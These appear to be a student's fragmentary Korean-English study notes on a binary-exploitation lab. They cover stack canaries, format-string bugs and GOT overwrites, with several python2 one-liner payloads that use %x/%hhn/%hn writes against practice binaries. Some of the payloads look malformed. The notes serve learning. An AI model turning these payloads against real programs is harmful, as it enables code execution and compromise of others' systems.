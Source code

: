Formats11

Canary

vulfoo has canary

argc 갯수
argv 어레이로된 parameter

fread

부모 프로세스- 아들 프로세스
Format string

Format 11_32

**카나리 찾는법**
1. Printf 에서 %x.으로 메모리 주소 읽기
	objdump -d - 디스어셈블
	

%eax,-0x2c(%ebp) 
ebp-20

0x8049276

python2 -c "print 'a'*20 + '\x00\x53\x5c\x59' + 'a'*12 + 

카나리를 잘 덮었어야되

SHELL CODE로 리턴하기 >


tmpbuffer
	RET
		%x %x.... %n
			Override = 4 bytes
				1 byte = %hhn Higer 4 bytes are same just lower 4 bytes
			$hhn$nx$hhn
			![[Screenshot 2024-10-31 at 3.37.55 PM.png]]
				python2 -c "print '\x8c\xd6\xff\xff'+'\x8d\xd6\xff\xff' + '%08x.'*8 + '%hhhn%hhn'" | ./formatstring_formats5_3
				8 Bytes+ 9bytes
				=62bytes
		4,4,4,10,58x

1. 하나의 정수는 4바이트
2. 하나의 HEX는 1 바이트
3. python2 -c "print '\x8c\xd6\xff\xff'+'aaaa'+'\x8d\xd6\xff\xff' + '%09x.'*5 + '%248x' +'%hhn%92d%hhn'" | ./formatstring_formats5_32 


formats9
3 global variables


Arbitrary Overwrite
1. Code Pointers (RET Address)
2. Function Pointers
	1. C++ vtable -> Code Pointers
	2. GCC .fini section
	3. GCC .got section Global Offset Table

Lazy Binding
		1. Memory에 적재되면
		2. C library는 그 library를 어드레스에 넣고 테이블에 넣는다 2번째 함수는 그 테이블에서 뽑아서 쓴다
		3. Procedure Linkage Table (코드가 들어 있음) 쓸수 없다
		4. GOT = Table이다 (각 라이브러리의 주소가 있다) 쓸수 있다
	1. 프로그램 시작하면 아무것도 없고
	2. 처음으로 시작하면 그 주소를 찾아서 테이블에 넣는다
	3. GOT Linker+Loader(Runtime):

1. GOT 어떤 Entry가 Exit()인지 찾을것 R=GOT
	1. objdump -R
2. nm 명ㄹ여어
3. python2 -c "print '\x24\xc0\x04\x08' + '%09x.'*7 + '37420%x' + '%hn'" +  | ./formatstring_formats12_32